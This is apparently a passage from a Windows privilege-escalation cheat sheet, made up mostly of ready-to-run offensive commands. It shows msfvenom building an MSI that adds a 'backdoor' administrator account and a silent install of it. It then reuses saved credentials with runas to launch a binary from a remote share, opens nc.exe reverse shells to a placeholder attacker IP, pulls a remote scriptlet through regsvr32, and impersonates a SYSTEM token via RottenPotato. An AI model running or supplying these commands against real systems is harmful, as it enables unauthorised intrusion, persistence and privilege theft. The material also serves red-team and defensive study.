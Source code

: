     $ msfvenom -p windows/adduser USER=backdoor PASS=backdoor123 -f msi -o evil.msi
    $ msiexec /quiet /qn /i C:\evil.msi

###### Use the cmdkey to list the stored credentials on the machine.

    cmdkey /list
    Currently stored credentials:
     Target: Domain:interactive=WORKGROUP\Administrator
     Type: Domain Password
     User: WORKGROUP\Administrator

###### Then you can use runas with the /savecred options in order to use the saved credentials. The following example is calling a remote binary via an SMB share.

    runas /savecred /user:WORKGROUP\Administrator "\\10.XXX.XXX.XXX\SHARE\evil.exe"

#### runas with a provided set of credential.

    C:\Windows\System32\runas.exe /env /noprofile /user:<username> <password> "c:\users\Public\nc.exe -nc <attacker-ip> 4444 -e cmd.exe"

    $ secpasswd = ConvertTo-SecureString "<password>" -AsPlainText -Force
    $ mycreds = New-Object System.Management.Automation.PSCredential ("<user>", $secpasswd)
    $ computer = "<hostname>"
    [System.Diagnostics.Process]::Start("C:\users\public\nc.exe","<attacker_ip> 4444 -e cmd.exe", $mycreds.Username, $mycreds.Password, $computer)

#### From local administrator to NT SYSTEM

    PsExec.exe -i -s cmd.exe

#### Living Off The Land Binaries and Scripts (and also Libraries) : https://lolbas-project.github.io/

    The goal of the LOLBAS project is to document every binary, script, and library that can be used for Living Off The Land techniques.

A LOLBin/Lib/Script must:

    Be a Microsoft-signed file, either native to the OS or downloaded from Microsoft. Have extra “unexpected” functionality. It is not interesting to document intended use cases. Exceptions are application whitelisting bypasses
    Have functionality that would be useful to an APT or red team

      wmic.exe process call create calc
      regsvr32 /s /n /u /i:http://example.com/file.sct scrobj.dll
      Microsoft.Workflow.Compiler.exe tests.xml results.xml

#### RottenPotato (Token Impersonation)

Binary available at : https://github.com/foxglovesec/RottenPotato Binary available at : https://github.com/breenmachine/RottenPotatoNG

      getuid
      getprivs
      use incognito
      list\_tokens -u
      cd c:\temp\
      execute -Hc -f ./rot.exe
      impersonate\_token "NT AUTHORITY\SYSTEM"
